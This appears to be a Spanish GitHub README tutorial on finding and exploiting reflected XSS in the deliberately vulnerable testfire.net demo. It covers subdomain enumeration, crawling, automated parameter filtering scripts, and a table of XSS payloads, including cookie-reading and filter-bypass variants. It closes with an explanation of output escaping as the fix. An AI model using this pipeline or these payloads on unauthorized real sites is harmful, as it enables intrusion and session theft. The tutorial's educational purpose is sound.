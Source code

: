 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_token] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener token github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<td valign="top" colspan="3" class="bb">
 <div class="fl" style="width: 99%;">
  <h1>Search Results</h1>
	<p>No results were found for the query:<br /><br />
	<script>alert(document.location)</script>
 </div>    
</td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## 7. Automatizar Busqueda Reflected XSS
> Nos apoyamos de la tools gf para encontrar parametros comunes con posibles xss reflect
```bash
go install github.com/tomnomnom/gf@latest
#clonar patrones
mkdir -p ~/.gf
git clone https://github.com/1ndianl33t/Gf-Patterns
cp Gf-Patterns/*.json ~/.gf
```
<details>
<summary>📜 xss.json</summary>

```bash
$  cat ~/.gf/xss.json
{
     "flags": "-iE", 
     "patterns": [
"q=",
"s=",
"search=",
"lang=",
"keyword=",
"query=",
"page=",
"keywords=",
"year=",
"view=",
"email=",
"type=",
"name=",
"p=",
"callback=",
"jsonp=",
"api_key=",
"api=",
"password=",
"email=",
"emailto=",
"token=",
"username=",
"csrf_token=",
"unsubscribe_token=",
"id=",
"item=",
"page_id=",
"month=",
"immagine=",
"list_type=",
"url=",
"terms=",
"categoryid=",
"key=",
"l=",
"begindate=",
"enddate="

]
}
```
</details>

> Filtrar el fichero que contiene las url katana que contengan patrones xss

```bash
cat testfire.net_katana_results.txt | gf xss

https://demo.testfire.net/survey_questions.jsp?step=a
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/disclaimer.htm?url=http://www.microsoft.com
https://demo.testfire.net/disclaimer.htm?url=http://www.netscape.com 
```
> Es necesario hacer análisis manual y pruebas para confirmar la vulnerabilidad.
```bash
#payload:
<script>alert(document.cookie)</script>
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
![image](https://github.com/user-attachments/assets/0c5a3d6a-883c-4322-825a-73bc2747f7f3)

<!-- espacio -->
> Kxss
>> Kxss parametros previos filtrados

```bash
cat demo.testfire.net_katana_results.txt 
https://demo.testfire.net
...
https://demo.testfire.net/survey_questions.jsp?step=a
```
```bash
cat demo.testfire.net_katana_results.txt | grep = | kxss > kxss_test.txt  
```
```bash
cat kxss_test.txt  
URL: https://demo.testfire.net/index.jsp?content=business_retirement.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; 
...
URL: https://demo.testfire.net/index.jsp?content=inside_press.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=business_cards.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=inside_careers.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
>> Kxss usando urlfinder (10/10)
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
nano kxss_scan.sh
chmod +x kxss_scan.sh
./kxss_scan.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo con subdominios
SUBDOMAINS_FILE="testfire.net_all_subs.txt"
# Carpeta de salida
OUTPUT_DIR="kxss_results"
# Crear carpeta si no existe
mkdir -p "$OUTPUT_DIR"

# Iterar sobre cada subdominio
while read -r sub; do
    echo "[*] Escaneando: $sub"
    
    # Normalizar nombre para el fichero de salida
    OUT_FILE="${OUTPUT_DIR}/${sub//./_}.txt"
    
    # Ejecutar pipeline
    urlfinder -d "$sub" | grep = | kxss > "$OUT_FILE"
    
    echo "[+] Resultados guardados en: $OUT_FILE"
done < "$SUBDOMAINS_FILE"

echo "[✔] Escaneo finalizado. Revisa la carpeta: $OUTPUT_DIR"
```
</details>

![image](https://github.com/user-attachments/assets/823d512c-4896-49a8-ab51-e5d9f42f5349)
![image](https://github.com/user-attachments/assets/fc70261a-1db1-4879-828a-50a5806e9cec)

```bash
└─$ cat altoro_testfire_net.txt  
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm&job=LoyaltyMarketingProgramManager:Marketing Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
...
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: http://altoro.testfire.net/index.jsp?content=personal_loans.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
<!-- espacio -->
<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*
>>>>*Referencias: [AmrSec](https://www.youtube.com/watch?v=bAHNM8IInwE&ab_channel=AmrSec)*
>>>>>*Referencias: [Javo y LemonOfTroy](https://www.youtube.com/watch?v=EUWEdaNvxSM&ab_channel=ThreatXSecurity)*

